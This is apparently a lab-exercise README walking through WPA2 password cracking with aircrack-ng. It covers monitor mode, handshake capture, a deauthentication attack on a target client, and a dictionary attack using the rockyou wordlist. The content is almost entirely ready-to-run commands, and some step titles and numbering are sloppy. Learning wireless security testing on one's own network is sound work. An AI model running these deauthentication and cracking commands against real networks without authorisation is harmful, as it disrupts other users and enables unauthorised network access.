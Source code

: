 # WPA2 Cracking Exercise - Walkthrough

#### Installing `aircrack-ng`, `iwconfig`, and `airmon-ng`
1. **Open a terminal and update your package list**:
   ```bash
   sudo apt update
   ```

2. **Install `aircrack-ng` (this will install `airmon-ng` and other dependencies)**:
   ```bash
   sudo apt install aircrack-ng
   ```

### 2. **Put Your WiFi Adapter into Monitor Mode**
Monitor mode allows us to capture WiFi traffic, including handshakes.
1. **Stop NetworkManager** (optional but recommended):
   ```bash
   sudo ip link set wlp2s0 down
   sudo iw dev wlp2s0 set type monitor
   sudo ip link set wlp2s0 up
   iwconfig 
   ```

### 3. **Capture WPA2 Handshake**
1. **Use `airodump-ng` to capture packets**:
   ```bash
   sudo airodump-ng wlp2s0
   ```

2. **Identify client MACs connected to AP**:
   * Start `airodump-ng` with the correct BSSID (the MAC address of the access point's wireless interface) and channel, saving the capture file to a directory:
     ```bash
     sudo airodump-ng --bssid <Target BSSID> -c <Channel Number> wlp2s0
     ```

2. **Deauthenticate the client**:
   * You can force a client to reconnect to capture the handshake:
     ```bash
     sudo aireplay-ng --deauth 10 -a <Target BSSID> -c <Client MAC> wlp2s0
     ```

3. **Capture the handshake**:
   * Start `airodump-ng` with the correct BSSID (the MAC address of the access point's wireless interface) and channel, saving the capture file to a directory:
     ```bash
     sudo airodump-ng --bssid <Target BSSID> -c <Channel Number> -w /path/to/save/handshake wlp2s0
     ```

### 4. **Crack the WPA2 Password Using `aircrack-ng`**
1. **Download the `rockyou.txt` wordlist**:
   * Navigate to the desired folder (e.g., `~/Downloads`) and download the wordlist:
     ```bash
     wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
     ```
   * Extract the wordlist:
     ```bash
     tar -xvf rockyou.txt.tar.gz
     ```

2. **Run `aircrack-ng` on the captured `.cap` file**:
   ```bash
   sudo aircrack-ng -e "Your Network Name" -w /path/to/rockyou.txt /path/to/your/capture.cap
   ```

